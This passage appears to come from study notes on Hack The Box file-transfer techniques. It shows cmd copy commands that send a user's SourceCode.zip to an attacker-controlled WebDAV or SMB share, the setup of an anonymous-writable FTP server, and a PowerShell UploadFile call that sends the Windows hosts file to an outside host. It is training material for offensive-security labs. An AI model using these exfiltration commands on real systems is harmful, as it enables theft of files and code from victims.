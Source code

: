 Upload files:

```cmd-session
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

### FTP Uploads

We need Python module pyftpdlib.

Spin up ftp server:

```shell-session
jadu101@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write

/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
```

Use powershell to upload file to ftp:

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

